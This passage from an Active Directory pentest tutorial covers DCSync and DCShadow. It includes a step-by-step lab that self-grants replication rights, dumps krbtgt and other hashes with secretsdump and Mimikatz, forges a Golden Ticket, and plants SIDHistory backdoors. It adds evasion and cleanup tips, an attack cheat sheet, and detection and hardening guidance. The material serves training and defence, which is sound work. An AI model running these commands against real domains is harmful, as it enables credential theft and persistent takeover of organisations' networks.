Then DCSync as `lowpriv`. **Opsec note:** writing this ACE is a *change* on the domain head — it generates a **directory-service change** event (5136) if the SACL audits it, and BloodHound's post-collection would show the new edge. Mature red teams add the ACE, DCSync `krbtgt` only, then **remove the ACE** to reduce forensic residue:

```powershell
Remove-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity lowpriv -Rights DCSync
```

### 6.2 From Linux with Impacket `dacledit.py`

```bash
# Add DCSync rights for user 'lowpriv' on the domain head:
dacledit.py -action write -rights DCSync -principal lowpriv \
  -target-dn 'DC=corp,DC=local' \
  'corp.local/lowpriv:Passw0rd!' -dc-ip 10.10.10.5

# ... perform DCSync ...

# Clean up (remove the ACE) afterwards:
dacledit.py -action remove -rights DCSync -principal lowpriv \
  -target-dn 'DC=corp,DC=local' \
  'corp.local/lowpriv:Passw0rd!' -dc-ip 10.10.10.5
```

`dacledit.py` prints the SDDL before/after and can back up the original security descriptor with `-backup` — use it so you can restore exactly what was there.

**Bug-bounty / CTF angle:** on HackTheBox and TryHackMe AD boxes (e.g. HTB *Forest*, *Sauna*, *Blackfield*, *Return*, and countless "assumed breach" pro-lab machines), the intended path is very often "low-priv user → WriteDacl/GenericAll on domain or on a privileged group → grant DCSync → dump krbtgt → Golden Ticket → root." Recognising the WriteDacl-to-DCSync chain in BloodHound output is one of the highest-yield pattern-matches in AD CTFs.

## Part 7: Fully Worked Lab — From Low-Priv User to krbtgt via DCSync

This is the reproducible end-to-end lab. Environment: a single lab domain `corp.local`, DC `DC01` at `10.10.10.5`, an attacker Kali box at `10.10.14.7`, and a compromised low-privilege user `lowpriv:Passw0rd!` that (by lab design) holds `WriteDacl` on the domain object. Part 12 shows how to build this. **Only run this against a lab you own or an engagement you are authorised for.**

### Step 0 — Validate the foothold credential

```bash
nxc smb 10.10.10.5 -u lowpriv -p 'Passw0rd!'
```

```
SMB  10.10.10.5  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:False)
SMB  10.10.10.5  445  DC01  [+] corp.local\lowpriv:Passw0rd! 
```

### Step 1 — Confirm the escalation path with BloodHound

Collect from Kali and load into BloodHound:

```bash
bloodhound-python -u lowpriv -p 'Passw0rd!' -d corp.local -ns 10.10.10.5 -c All --zip
```

Run the Cypher query from Part 5.2 and the "Shortest paths to Domain Admins" pre-built query. BloodHound shows: `LOWPRIV@CORP.LOCAL —[WriteDacl]→ CORP.LOCAL (Domain)`. That single edge is the whole attack.

### Step 2 — Grant DCSync rights to `lowpriv`

```bash
dacledit.py -action write -rights DCSync -principal lowpriv \
  -target-dn 'DC=corp,DC=local' -backup \
  'corp.local/lowpriv:Passw0rd!' -dc-ip 10.10.10.5
```

```
[*] DACL backed up to dacledit-20260101-...-backup.txt
[*] DACL modified successfully!
```

### Step 3 — DCSync the krbtgt account (surgical)

```bash
secretsdump.py corp.local/lowpriv:'Passw0rd!'@10.10.10.5 -just-dc-user krbtgt
```

```
Impacket v0.12.0 - Copyright Fortra, LLC
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c1f3f2a...a19b:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9e1f4c...redacted
krbtgt:aes128-cts-hmac-sha1-96:b7c2aa...redacted
krbtgt:des-cbc-md5:1a2b3c...redacted
[*] Cleaning up...
```

You now hold the `krbtgt` NT hash **and** its AES256 key — everything needed for a Golden Ticket (Chapter 6). Also grab the built-in Administrator for immediate Pass-the-Hash:

```bash
secretsdump.py corp.local/lowpriv:'Passw0rd!'@10.10.10.5 -just-dc-user Administrator
```

### Step 4 — (Optional) full domain dump

```bash
secretsdump.py corp.local/lowpriv:'Passw0rd!'@10.10.10.5 -just-dc -outputfile corp_dump
# Produces corp_dump.ntds (hashes) and corp_dump.ntds.kerberos (Kerberos keys)
wc -l corp_dump.ntds
```

### Step 5 — Weaponise: Golden Ticket from the krbtgt AES key

Cross-reference Chapter 6, but the immediate payoff:

```bash
# Get the domain SID:
lookupsid.py corp.local/lowpriv:'Passw0rd!'@10.10.10.5 0 | grep 'Domain SID'
# Forge a Golden Ticket with the AES256 key (better opsec than RC4):
ticketer.py -aesKey 9e1f4c...redacted -domain-sid S-1-5-21-1583...  -domain corp.local Administrator
export KRB5CCNAME=Administrator.ccache
# Use it:
secretsdump.py -k -no-pass corp.local/Administrator@DC01.corp.local -just-dc-user krbtgt
```

### Step 6 — Clean up the ACE

```bash
dacledit.py -action remove -rights DCSync -principal lowpriv \
  -target-dn 'DC=corp,DC=local' \
  'corp.local/lowpriv:Passw0rd!' -dc-ip 10.10.10.5
```

**What just happened, in one line:** a user with no admin rights, but with a stray `WriteDacl` on the domain head, granted itself replication rights, replicated the `krbtgt` key over the legitimate DRSUAPI channel, and forged a domain-wide skeleton key — without ever logging on to the DC.

### Windows-native variant (Mimikatz)

If your foothold is a Windows box instead of Kali, Steps 3–5 become:

```
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt /all /csv
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1583... /aes256:9e1f4c... /ptt
```

## Part 8: DCShadow — Writing to the Directory as a Rogue DC

DCSync *reads*. DCShadow *writes*. It is the more surgical, more advanced primitive: it lets you set **any attribute on any object** by pushing a replication update as if you were a legitimate Domain Controller, and it does so through the replication channel that most object-level auditing does not fully cover.

### 8.1 What DCShadow actually does

To originate a replicated change, the source must be a Domain Controller — meaning it must appear in the **Configuration NC** as an `nTDSDSA` object under a server in a site, and it must have SPNs (the DRS service class `E3514235-4B06-11D1-AB04-00C04FC2DCD2` and a Global Catalog SPN) so peers can bind to it. DCShadow performs a temporary, minimal version of "promote to DC":

1. **Register** the attacker machine (or an arbitrary computer object you control) as a DC: create the `nTDSDSA` object in `CN=Configuration`, add the required SPNs to the computer account. This step needs high privilege (by default Domain/Enterprise Admin, or specific granular rights on the configuration objects — see 8.3).
2. **Stage** the malicious attribute values to push (e.g. add `SIDHistory = S-1-5-21-...-512` to a user, so it silently gains Domain Admin membership at token-build time).
3. **Trigger** replication: DCShadow forces the real DC to pull from the rogue DC by calling `DRSReplicaAdd` / abusing the `replicate now` path, so the real DC fetches the staged changes and **commits them to the real directory** as legitimate replicated updates.
4. **Unregister**: tear down the `nTDSDSA` object and SPNs to clean up.



### 8.2 Why it evades a lot of auditing

Normal attribute writes on a DC produce **Directory Service Changes** events (5136) tied to the LDAP write path. DCShadow's changes arrive via **replication**, which historically does not generate the same per-attribute 5136 modification records on the receiving DC in the way a direct LDAP write does, and the *originating* DC is the attacker's rogue DSA (not a monitored production DC). The registration of the `nTDSDSA` object *is* visible in the Configuration partition (object creation, and 4662 on the config objects), so DCShadow is **not invisible** — but it moves the footprint away from "someone modified this sensitive user object" toward the far-less-monitored "a server object appeared in the config partition for a few seconds."

### 8.3 The privileges DCShadow needs

By default DCShadow needs Domain Admin (to create the config objects and set SPNs). But Delpy documented a **minimal rights set** that lets a *non-DA* run it, which is the interesting attack path:

| Object | Right needed |
|---|---|
| Domain object (`DC=corp,DC=local`) | `DS-Install-Replica` (Add/Remove Replica in Domain) |
| `CN=Configuration` — Sites container | `WriteProperty` / Create-child to register the server + nTDSDSA |
| The target computer object (rogue DC) | `WriteProperty` on SPN attribute (`servicePrincipalName`) |
| The victim object being modified | write on the specific attribute being pushed |

If those granular rights have been delegated (they sometimes are, to "replication management" or site-admin roles), DCShadow runs without full DA — a genuine, if uncommon, real-world escalation/persistence primitive.

### 8.4 DCShadow with Mimikatz — the two-process dance

DCShadow needs **two** Mimikatz processes running simultaneously, both typically as `SYSTEM`:

- **Process 1 (the "server" / rogue DC)** stages the attribute values and waits.
- **Process 2 (the "trigger")** forces the real DC to replicate from the rogue DC, then process 1 pushes and both exit.

**Process 1 — stage the change** (run as SYSTEM, e.g. via `token::elevate` or PsExec `-s`). This example plants a SIDHistory of Domain Admins onto the low-priv victim so the victim silently becomes DA at every logon:

```
mimikatz # !+                        # load the mimidrv driver (for SYSTEM ops)
mimikatz # !processtoken             # elevate to SYSTEM
mimikatz # lsadump::dcshadow /object:CN=lowpriv,CN=Users,DC=corp,DC=local /attribute:SIDHistory /value:S-1-5-21-1583...-512
```

Mimikatz responds that it has registered the rogue DSA and is now **waiting** for a push trigger:

```
** Domain Controller Shadow **
== Server object ==
... registering rogue nTDSDSA in CN=Configuration ...
[+] SPNs added: E3514235-4B06-11D1-AB04-00C04FC2DCD2/...  GC/...
== Object modifications ==
* CN=lowpriv,CN=Users,DC=corp,DC=local
  * sIDHistory (add): S-1-5-21-1583...-512
== Waiting for trigger (run `lsadump::dcshadow /push` from another prompt as DA) ==
```

**Process 2 — trigger the push** (run as a Domain Admin, or a principal with `DS-Install-Replica`):

```
mimikatz # lsadump::dcshadow /push
```

The real DC pulls from the rogue DSA, commits `sIDHistory` onto `lowpriv`, and both processes tear down the config objects. From now on, `lowpriv`'s access token includes SID `...-512` (Domain Admins) — a stealthy, replication-blessed backdoor that survives password resets because it is an attribute on the object, not a group membership that shows up in "Domain Admins" the same way.

### 8.5 Attributes worth pushing with DCShadow

DCShadow is general-purpose write. High-value targets:

| Attribute | Effect |
|---|---|
| `sIDHistory` | Add a privileged SID (e.g. Domain/Enterprise Admins) → token gains that group's access without visible group membership. |
| `primaryGroupID` | Set to `512` (Domain Admins) — legacy stealth group membership that does not appear in the normal `member` back-link. |
| `msDS-AllowedToActOnBehalfOfOtherIdentity` | Plant Resource-Based Constrained Delegation → impersonate any user to that host (RBCD, next chapter). |
| `ntSecurityDescriptor` | Rewrite an object's DACL (e.g. grant yourself GenericAll) via replication. |
| `userAccountControl` | Toggle flags (e.g. disable pre-auth for AS-REP roasting, or set `TRUSTED_FOR_DELEGATION`). |
| `msDS-KeyCredentialLink` | Plant Shadow Credentials for passwordless auth as the victim. |

**Persistence framing:** DCShadow's value is less "first compromise" (you usually need high privilege to run it) and more **stealthy persistence / privilege re-grant** on an already-owned domain: it writes backdoors through a channel most defenders under-monitor, and it can immediately un-write the config residue.

## Part 9: The krbtgt Payoff and Why DCSync = Permanent Domain Ownership

The reason DCSync is the single most consequential AD attack is the `krbtgt` account. Every TGT in the domain is encrypted/signed with the `krbtgt` key. Once you have replicated that key:

- **Golden Tickets** (Chapter 6): forge a TGT for any user, any groups, valid for the ticket lifetime you choose — no password, no DC modification. Persistence measured in *years* if `krbtgt` is not rotated.
- **Every user's NT hash and AES key**: Pass-the-Hash / Overpass-the-Hash against every account in the domain (Chapter 5).
- **Trust keys** (`corp.local$` trust accounts): forge **inter-realm** TGTs to pivot into trusting/trusted domains and forests (SID-history + trust-key forging).
- **Service account keys**: Silver Tickets for specific services without DC contact.



**This is why the only real remediation after a confirmed DCSync of krbtgt is to rotate the `krbtgt` password twice** (with enough delay between rotations for replication to converge, so both the current and previous key are invalidated) — plus reset every privileged credential and, in serious cases, rebuild trust. A single-rotate is insufficient because AD keeps the previous key valid for existing tickets. Chapter 6 covered the double-rotation mechanics.

## Part 10: Opsec, Pitfalls, and Real-World Notes

Concrete gotchas that separate a clean operation from a caught one.

- **`Get-Changes` alone is not enough.** Some accounts (e.g. certain read rights) hold only `DS-Replication-Get-Changes`. That replicates *metadata and non-secret attributes* but **not** password hashes. A DCSync attempt returns objects without the secret blobs. You need `Get-Changes-All` (or the filtered-set right in RODC edge cases) for hashes. If secretsdump returns empty hashes, check which of the two rights you actually hold.
- **Targeting a single user is quieter than dumping everything.** `-just-dc-user krbtgt` triggers replication for one object; a full `-just-dc` replicates the entire domain and generates far more directory-access volume and a bigger network transfer — easier to alert on.
- **RODCs are a trap and an opportunity.** A Read-Only DC does not hold most secrets (its `msDS-RevealedList` limits what it caches). DCSync *from* an RODC yields little; but if you can read the RODC's cached credentials or abuse `msDS-RevealedUsers`, that is a separate path. Do not point DCSync at an RODC expecting krbtgt.
- **Source DC selection.** secretsdump talks to the DC you specify. If that DC has better auditing (e.g. the PDC often does), pick a quieter DC in a branch site — but note branch DCs may be RODCs (previous point).
- **DCShadow needs the config residue cleaned.** If a trigger fails, the rogue `nTDSDSA` object can linger in `CN=Configuration`, which is both a detection artefact and can cause replication errors. Always confirm teardown; `repadmin /viewlist` and `Get-ADObject -SearchBase 'CN=Configuration,...' -Filter {objectClass -eq "nTDSDSA"}` reveal stray DSAs.
- **Time sync.** Kerberos (used by DRSUAPI auth via GSS-NEGOTIATE) needs clocks within 5 minutes. If your Kali clock drifts, `secretsdump -k` fails with clock-skew errors — sync with `ntpdate`/`rdate` to the DC.
- **Machine account DCSync.** Domain Controllers' machine accounts (`DC01$`) have replication rights inherently. If you compromise a DC computer account's credentials (e.g. via a relay or Shadow Credentials), you can DCSync as `DC01$` — which looks *extremely* normal, because DCs replicate all the time. This is one of the stealthiest DCSync variants.
- **Azure AD / Entra Connect sync accounts.** The on-prem `MSOL_xxxxxxxx` account (and the `AAD_` account) created by Entra Connect frequently holds DCSync rights so it can hash-sync to the cloud. Compromising the Entra Connect server and extracting its stored sync credential is a well-known path to domain-wide DCSync.

## Part 11: Detection & Defense Angle

This is the consolidated defensive section. DCSync and DCShadow are detectable and, to a large degree, preventable — but only if you monitor the right surfaces.

### 11.1 Detecting DCSync

The definitive host-side signal is **Windows Security Event ID 4662** ("An operation was performed on an object") on a Domain Controller, where the `Properties` field references one of the replication extended-right GUIDs:

- `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Get-Changes)
- `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (Get-Changes-All)
- `89e95b76-444d-4c62-991a-0facbeda640c` (Get-Changes-In-Filtered-Set)

The detection rule that actually works in practice: **alert on 4662 with these GUIDs where the `SubjectUserName` is NOT a Domain Controller machine account** (`*$` that belongs to the Domain Controllers group) and not a known sync account (MSOL_/AAD_). Legitimate DCSync only ever comes from DCs replicating with each other. Any *user* account triggering it is DCSync abuse.

```
# Splunk-style pseudo-query
index=wineventlog EventCode=4662
  (Properties="*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*"
   OR Properties="*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*")
  NOT (Account_Name="*$" AND Account_Name IN [dc_machine_accounts])
  NOT Account_Name IN ("MSOL_*","AAD_*")
| stats count by Account_Name, host, _time
```

**Prerequisite:** Event 4662 for these rights only fires if the DC's **SACL** on the domain object audits the `Control Access`/replication rights for the relevant principals, and "Audit Directory Service Access" is enabled. Many environments do not have this tuned, which is why DCSync is often invisible in the wild. A Sigma rule (`ad_object_writedac_access` family / `net_dns`... no — specifically the community rule `win_security_dcsync`) encodes exactly the 4662+GUID+non-DC logic.

Network-side, DCSync is a **DRSUAPI `GetNCChanges`** call from a host that is *not* a Domain Controller. Microsoft Defender for Identity (formerly Azure ATP) ships a built-in **"Suspected DCSync attack (replication of directory services)"** detection that does exactly this correlation at the network sensor level, and it is one of the most reliable out-of-the-box AD attack detections available. Zeek/Suricata can flag DRSUAPI binds from non-DC source IPs.

### 11.2 Detecting the ACL grant (WriteDacl → DCSync)

The *precursor* to self-service DCSync is the ACE being written onto the domain head. Monitor **Event ID 5136** (directory service object modified) on the domain object where the modified attribute is `nTSecurityDescriptor` and the new ACE grants a replication right. This catches `Add-DomainObjectAcl`/`dacledit` before the DCSync happens. Also baseline the domain-head DACL and diff it on a schedule:

```powershell
# Baseline: list every principal with a replication right on the domain head
$domainDN = (Get-ADDomain).DistinguishedName
$acl = Get-Acl "AD:$domainDN"
$replGuids = @(
  '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2',  # Get-Changes
  '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'   # Get-Changes-All
)
$acl.Access | Where-Object {
  $_.ObjectType -in $replGuids -and $_.AccessControlType -eq 'Allow'
} | Select-Object IdentityReference, ObjectType, ActiveDirectoryRights
```

Any identity outside the expected set (Domain/Enterprise Admins, Administrators, Domain Controllers, Enterprise/Read-only Domain Controllers, and vetted sync accounts) is a finding to investigate and likely revoke.

### 11.3 Detecting DCShadow

DCShadow is subtler but has tells:

- **Rogue nTDSDSA in the Configuration partition.** A `Server`/`nTDSDSA` object appearing (Event 5137 create / 4662 on the config container) from a non-admin workstation, especially one that disappears seconds later, is a strong DCShadow indicator. Monitor `CN=Sites,CN=Configuration` for object creation.
- **SPN changes on a computer/user object** adding the DRS service class GUID `E3514235-4B06-11D1-AB04-00C04FC2DCD2` or a `GC/` SPN to a machine that is not a real DC (Event 5136 on `servicePrincipalName`).
- **Unexpected replication source.** `repadmin /showrepl` and `repadmin /viewlist` list DSAs; a DSA that is not a known DC, or a `DRSReplicaAdd` from an odd source, is anomalous.
- **The change itself.** Even if the modification arrives via replication, downstream you can catch the *effect*: a user suddenly holding `sIDHistory` of Domain Admins, a non-DA gaining `primaryGroupID 512`, or a new `msDS-AllowedToActOnBehalfOfOtherIdentity` blob. Periodic hunting for these attribute anomalies catches DCShadow persistence after the fact.

Microsoft Defender for Identity also has a **"Suspected DCShadow attack"** detection keyed on the rogue-DC registration and replication-request patterns.

### 11.4 Prevention and hardening

| Control | Effect |
|---|---|
| **Least privilege on the domain-head DACL** | The root fix. No user/service account should hold Get-Changes-All unless it genuinely must (and those must be tiered/protected). Audit and prune quarterly. |
| **Tier-0 isolation** | Treat any principal with replication rights as Tier 0 (same as DA). Protected Users group, no logon to workstations, PAW-only admin. |
| **Enable Directory Service Access auditing + SACL** | Without it, Event 4662 never fires and DCSync is invisible. Configure the SACL to audit replication rights. |
| **Microsoft Defender for Identity** | Network-level DCSync/DCShadow detection independent of host SACL tuning. |
| **Monitor 5136 on the domain SD** | Catch the WriteDacl-to-DCSync grant before secrets leave. |
| **Rotate krbtgt on suspected compromise** | Double-rotation invalidates Golden Tickets; the only real recovery after krbtgt theft. |
| **Restrict RPC / segment DCs** | DCs should only accept DRSUAPI from other DCs; host firewall / IPsec rules limiting replication partners reduce the surface. |
| **Remove reversible encryption / WDigest** | Shrinks what `supplementalCredentials` yields (cleartext) if DCSync does succeed. |

**IR use case:** on confirmed DCSync of `krbtgt`, assume total domain compromise — every credential is burned. The response is not "reset the one account" but a full Tier-0 credential reset, double krbtgt rotation, and hunting for Golden Tickets / DCShadow-planted persistence (stray SIDHistory, primaryGroupID, RBCD, KeyCredentialLink).

## Part 12: Building the Lab

To practise everything above safely, stand up a minimal AD lab. You need one Windows Server (DC) and, ideally, a Kali attacker box on the same host-only network.

### 12.1 Promote a DC

On a fresh Windows Server 2019/2022:

```powershell
# Install AD DS role and promote to a new forest:
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName corp.local -InstallDns -SafeModeAdministratorPassword `
  (ConvertTo-SecureString 'LabDSRM!2345' -AsPlainText -Force) -Force
```

### 12.2 Create the vulnerable low-priv user and the WriteDacl misconfig

```powershell
# Create a low-priv user:
New-ADUser -Name lowpriv -SamAccountName lowpriv -AccountPassword `
  (ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Enabled $true

# Deliberately grant lowpriv WriteDacl on the domain head (the misconfig):
$domainDN = (Get-ADDomain).DistinguishedName
$user = Get-ADUser lowpriv
$sid  = [System.Security.Principal.SecurityIdentifier]$user.SID
$acl  = Get-Acl "AD:$domainDN"
$ace  = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
  $sid, 'WriteDacl', 'Allow', 'None')
$acl.AddAccessRule($ace)
Set-Acl "AD:$domainDN" $acl
```

### 12.3 Enable auditing so you can see your own attacks

```powershell
# Turn on Directory Service Access auditing:
auditpol /set /subcategory:"Directory Service Access" /success:enable /failure:enable
auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
```

Then add a SACL on the domain object auditing the replication rights (via `dsacls` or ADSI Edit) so Event 4662 fires when you DCSync. Now run the Part 7 lab and watch the events appear in the DC's Security log — the best way to internalise both the attack and its detection is to trigger the attack and then hunt your own 4662s.

## Part 13: Final Revision / Summary

The compressed mental model to carry out of this chapter:

- **AD is a replicated database.** DCs sync via the DRSUAPI RPC interface, calling `DRSGetNCChanges` to pull attribute changes — **including secrets** — for a naming context. This is legitimate, constant, and essential.
- **DCSync abuses that read path.** A principal holding `DS-Replication-Get-Changes` **and** `DS-Replication-Get-Changes-All` on the domain object can call `GetNCChanges` and have a real DC hand over any account's password hashes, Kerberos keys, and history — no logon to the DC, no code execution, no touching NTDS.dit.
- **The prize is `krbtgt`.** Replicating the krbtgt key = Golden Tickets = permanent domain ownership until a double krbtgt rotation. DCSync also yields every user hash (PtH), trust keys (cross-domain), and service keys (Silver Tickets).
- **Two roads to the hashes.** DCSync (over-the-wire, quiet on host, needs replication rights) vs. NTDS.dit extraction (on-box VSS/IFM, needs local admin + SYSTEM hive, noisier on host). Pick based on what you hold.
- **Getting the rights.** Default holders are DA/EA/DCs. Attackers get them via ACL abuse — `WriteDacl`/`GenericAll` on the domain head → `Add-DomainObjectAcl -Rights DCSync` (PowerView) or `dacledit.py` (Impacket) → self-granted DCSync. BloodHound's `DCSync`/`GetChanges`/`GetChangesAll` edges surface both existing and reachable rights.
- **DCShadow is the write primitive.** Register a rogue DC in the Configuration partition, stage attribute values (SIDHistory, primaryGroupID, RBCD, DACLs, KeyCredentialLink), trigger replication so the real DC commits them, then tear down. Stealthy persistence that sidesteps much object-level auditing.
- **Detection.** DCSync → Event **4662** with replication GUIDs from a non-DC principal (needs SACL + DS-Access auditing), and network DRSUAPI from non-DCs (Defender for Identity). The ACL grant → Event **5136** on the domain SD. DCShadow → rogue `nTDSDSA` in the config partition, anomalous SPNs, and the planted attributes themselves.
- **Defense.** Least privilege on the domain-head DACL (the root cause), Tier-0 isolation of any replication-capable principal, auditing turned on, and krbtgt double-rotation on compromise.

## Part 14: Cheat Sheet / Quick Reference

**The two rights (need both for secrets):**

```
DS-Replication-Get-Changes       1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
DS-Replication-Get-Changes-All   1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
```

**Enumerate who can DCSync (PowerView):**

```powershell
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -SearchScope Base -ResolveGUIDs |
  ? { $_.ObjectAceType -match 'Replication-Get-Changes' } |
  select @{n='Who';e={ConvertFrom-SID $_.SecurityIdentifier}}, ObjectAceType
```

**BloodHound Cypher:**

```cypher
MATCH p=(n)-[:DCSync|GetChanges|GetChangesAll]->(d:Domain) RETURN p
```

**Grant DCSync (PowerView / Impacket):**

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity lowpriv -Rights DCSync
```
```bash
dacledit.py -action write -rights DCSync -principal lowpriv -target-dn 'DC=corp,DC=local' 'corp.local/lowpriv:pw' -dc-ip 10.10.10.5
```

**DCSync (dump secrets):**

```bash
# Impacket - whole domain / single user / PtH:
secretsdump.py corp.local/repl:'pw'@10.10.10.5 -just-dc
secretsdump.py corp.local/repl:'pw'@10.10.10.5 -just-dc-user krbtgt
secretsdump.py -hashes :NTHASH corp.local/repl@10.10.10.5 -just-dc
# NetExec:
nxc smb 10.10.10.5 -u repl -p 'pw' --ntds
```
```
# Mimikatz:
lsadump::dcsync /domain:corp.local /user:krbtgt /all /csv
```

**NTDS.dit offline (Road 2):**

```bash
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL
```

**DCShadow (Mimikatz, two prompts):**

```
# Prompt 1 (SYSTEM): stage
lsadump::dcshadow /object:CN=lowpriv,CN=Users,DC=corp,DC=local /attribute:SIDHistory /value:S-1-5-21-...-512
# Prompt 2 (DA): push
lsadump::dcshadow /push
```

**Detection quick-refs:**

```
DCSync abuse   -> Event 4662 + replication GUID, SubjectUser != DC machine acct
ACL grant      -> Event 5136 on domain nTSecurityDescriptor
DCShadow       -> rogue nTDSDSA in CN=Configuration; DRS/GC SPN on non-DC; 5137
Recovery       -> double-rotate krbtgt; reset Tier-0; hunt SIDHistory/primaryGroupID/RBCD
```

## Part 15: Practice Labs & Resources

Train these exact skills, not generic AD:

- **HackTheBox — *Forest*:** classic AS-REP + DCSync path; a Exchange-group privilege leads to `WriteDacl`/DCSync on the domain. The canonical "grant yourself DCSync" box.
- **HackTheBox — *Blackfield*:** Backup operator / forced password change → DCSync of the domain. Excellent secretsdump `-just-dc` practice.
- **HackTheBox — *Sauna* and *Return*:** service-account and printer-config paths that end in DCSync via delegated rights.
- **TryHackHe / TryHackMe — *Attacktive Directory* and the *AD* / *Post-Exploitation* rooms:** guided Impacket secretsdump and Mimikatz DCSync.
- **TryHackMe — *Persisting Active Directory*:** DCShadow, Golden Tickets, and directory-level persistence hands-on.
- **HackTheBox Pro Labs — *Dante*/*Zephyr*/*RastaLabs*:** multi-host chains where DCSync of krbtgt into a Golden Ticket is the intended domain-takeover step.
- **GOAD (Game of Active Directory)** by Orange Cyberdefense: a free, self-hosted vulnerable multi-domain forest — build it locally and practise DCSync, DCShadow, ACL abuse, and the detection side end-to-end.
- **Detection practice:** enable the auditing from Part 12, run your own DCSync, and write the 4662 detection query in your SIEM. Pair with Microsoft's **Defender for Identity** lab guidance and the **Sigma** `win_security_dcsync` rule to see the same attack from the blue side.

**Recommended reading to go deeper:** the MS-DRSR protocol specification (`DRSGetNCChanges`, opnum 3), `adsecurity.org`'s DCSync and DCShadow write-ups, the original DCShadow release material by Benjamin Delpy and Vincent Le Toux, and the BloodHound documentation on the `DCSync`, `GetChanges`, and `GetChangesAll` edges. In the next chapter we move from replication abuse to **Kerberos delegation attacks (unconstrained, constrained, and resource-based constrained delegation)** — another route to impersonation and domain dominance that pairs naturally with the DCShadow-planted `msDS-AllowedToActOnBehalfOfOtherIdentity` primitive introduced here.

## Practice Questions

1. A principal holds only `DS-Replication-Get-Changes` (not `-All`) on the domain object. You run `secretsdump.py -just-dc` and the output lists accounts but every hash field is blank. Explain precisely why, and what right you must additionally obtain.
2. You have local admin on a branch-office DC but BloodHound shows no principal you control has DCSync rights. Describe two different ways to still extract the `krbtgt` key, and the distinct detection artefact each leaves.
3. Write the logic (in words) of a reliable DCSync detection rule using Event 4662, including the exact GUIDs and the false-positive sources you must exclude.
4. DCShadow lets you set `sIDHistory` on a user via replication. Why is this stealthier persistence than simply adding the user to the Domain Admins group, and what single periodic hunt would still catch it?
5. After confirming an attacker DCSynced `krbtgt`, a junior admin resets the `krbtgt` password once and declares the incident contained. Explain why this is insufficient and what the correct remediation is.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/07-dcsync-dcshadow-and-domain-dominance), with comments and the latest edits.*
